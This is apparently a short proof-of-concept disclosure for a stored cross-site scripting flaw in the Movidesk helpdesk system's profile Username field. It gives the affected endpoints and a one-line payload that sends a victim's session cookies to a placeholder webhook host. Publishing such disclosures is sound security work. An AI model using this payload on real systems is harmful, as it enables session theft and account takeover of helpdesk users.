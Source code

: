 # CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

**Affected Version: < 25.01.22**
**OBS: FOR THIS EXPLOIT, YOU HAVE TO BE AUTHENTICATED!**


## POC

This vulnerability resides in the /Account/EditProfile page in Username parameter,
Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`
Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`

https://IP/Account/EditProfile

---

## Reference

https://www.movidesk.com/
